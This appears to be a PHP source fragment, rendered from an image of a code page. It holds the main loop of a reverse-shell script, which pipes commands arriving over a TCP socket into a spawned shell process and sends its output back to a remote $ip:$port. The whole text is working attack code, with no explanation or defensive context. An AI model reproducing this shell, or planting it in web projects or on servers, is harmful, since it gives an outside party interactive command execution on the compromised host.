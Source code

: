 ```php
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
```